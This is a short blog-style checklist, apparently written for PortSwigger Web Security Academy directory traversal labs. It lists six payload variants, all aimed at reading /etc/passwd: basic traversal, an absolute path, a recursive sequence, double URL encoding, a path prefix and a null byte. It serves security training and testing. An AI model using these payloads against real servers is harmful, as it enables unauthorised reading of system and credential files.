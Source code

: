 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Mystery Labs Checklist"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal,checklist,bscp]
categories: [PortSwigger]
---
```


## 1. Use basic directory traversal:
```
../../../../etc/passwd
```

## 2. Use absolute path:
```
/etc/passwd
```

## 3. Use recursion: 
```
..././..././..././..././etc/passwd
```

## 4. Use double url encoding
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

## 5. Use start of path:
```
/var/www/images/../../../../etc/passwd
```

## 6. Use null byte:
```
../../../etc/passwd%00123.png
```
<hr/>